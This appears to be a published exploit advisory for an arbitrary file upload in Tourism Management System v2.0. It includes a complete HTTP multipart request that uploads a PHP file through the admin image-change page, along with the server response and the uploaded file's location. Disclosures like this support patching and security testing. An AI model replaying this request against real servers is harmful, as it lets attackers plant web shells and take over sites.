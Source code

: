 ```yaml
---
title: Tourism Management System 2.0 Shell Upload
published: true
---
```

- Exploit Title: Tourism Management System v2.0 - Arbitrary File Upload
- Google Dork: N/A
- Exploit Author: SoSPiro
- Date: 2024-02-18
- Vendor Homepage: https://phpgurukul.com
- Software Link: https://phpgurukul.com/tourism-management-system-free-download/
- Version: 2.0
- Tested on: Windows 10 Pro
- Impact: Allows admin to upload all files to the web server
- CVE : N/A

***

### Exploit Description:
The application is prone to an arbitrary file-upload because it fails to adequately sanitize user-supplied input.

### Proof of Concept (PoC):

- Request

```plaintext
POST /zer/tms/admin/change-image.php?imgid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------390927495111779706051786831201
Content-Length: 361
Origin: http://localhost
Connection: close
Referer: http://localhost/zer/tms/admin/change-image.php?imgid=1
Cookie: PHPSESSID=eqms3ipedmm41hqa1djnu1euhv
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red

-----------------------------390927495111779706051786831201
Content-Disposition: form-data; name="packageimage"; filename="phpinfo.php"
Content-Type: text/plain

<?php phpinfo();?>
-----------------------------390927495111779706051786831201
Content-Disposition: form-data; name="submit"


-----------------------------390927495111779706051786831201--
```

***

- Response

```plaintext
HTTP/1.1 200 OK
Date: Sun, 18 Feb 2024 04:33:37 GMT
Server: Apache/2.4.54 (Win64) PHP/8.1.13 mod_fcgid/2.3.10-dev
X-Powered-By: PHP/8.1.13
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 8146
```
***

- File location: `http://localhost/zer/tms/admin/pacakgeimages/phpinfo.php`

